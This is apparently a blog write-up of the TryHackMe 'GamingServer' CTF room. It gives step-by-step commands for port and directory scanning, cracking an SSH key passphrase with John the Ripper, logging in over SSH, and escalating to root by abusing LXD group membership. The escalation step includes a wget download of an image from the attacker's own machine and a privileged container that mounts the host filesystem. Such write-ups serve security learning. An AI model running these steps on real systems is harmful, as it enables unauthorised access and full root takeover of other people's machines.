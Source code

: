 ```yaml
---
title: "GamingServer tryhackme room writeup"
date: 2020-07-23 21:03:36 +0530
author: R4yan
layout: post
permalink: /2020-07-23-gamingserver/
categories: Genel
tags: [CTF, Writeups]
---
```


writeup of the room GamingServer in TryHackMe

first start by doing a port scan

{% highlight bash %}
rustscan $IP
{% endhighlight %}
results:


{% highlight bash %}
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
{% endhighlight %}

then start start dirbuster or gobuster to search for hidden files

{% highlight bash %}
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
{% endhighlight %}
you will then find an interesting folder called "/secret" 

![](https://i.imgur.com/dvouO8n.png)

that contains a ssh key, download it

after you downloaded that key create a new hash file using ssh2john
{% highlight bash %}
python ssh2john.py SecretKey > id_rsa.hash
{% endhighlight %}

and then crack it using john and rockyou wordlist
{% highlight bash %}
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
{% endhighlight %}

results
{% highlight bash %}
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
1g 0:00:00:12 DONE (2020-08-30 22:24) 0.08278g/s 1187Kp/s 1187Kc/s 1187KC/s *7¡Vamos! *
Session completed
{% endhighlight %}
then i found a user that can be used for a ssh connection on the website source code

in the bottom line of : https://$IP/index.html

![](https://i.imgur.com/AkvBtg2.png)

as you can see there is a user called john

connect to the server throught ssh
{% highlight bash %}
ssh john@$IP -i ./SecretKey
{% endhighlight %}
enter the passphrase and you logged in as john

![](https://i.imgur.com/fvRhWhv.png)

now get the user flag

{% highlight bash %}
cat user.txt
a****************e
{% endhighlight %}

after searching and looking in the machine i found an interesting service called lxd(Linux Containers) owned by root and that can be used by anyone,

locally clone that repo and run the other commands

{% highlight bash %}
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
{% endhighlight %}

then start a simple web server

{% highlight bash %}
python -m SimpleHTTPServer
{% endhighlight %}

then download the files you just downloaded locally

{% highlight bash %}
cd /tmp
wget http://$LHOST:8000/alpine-v3.12-x86_64-20200830_2354.tar.gz
{% endhighlight %}

replace $LHOST with your local ip address (run "ip addr" to see it)

import the image by running: 

{% highlight bash %}
lxc image import ./alpine-v3.12-x86_64-20200830_2354.tar.gz --alias myimage
{% endhighlight %}

then spawn a root shell by running this list of commands

{% highlight bash %}
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
whoami
{% endhighlight %}

now get the root flag 

{% highlight bash %}
cat mnt/root/root/flag.txt
2************c

{% endhighlight %}

if you don't get your root shell or it's not working try following this [guide](https://www.hackingarticles.in/lxd-privilege-escalation/) for privilege escalation about lxd
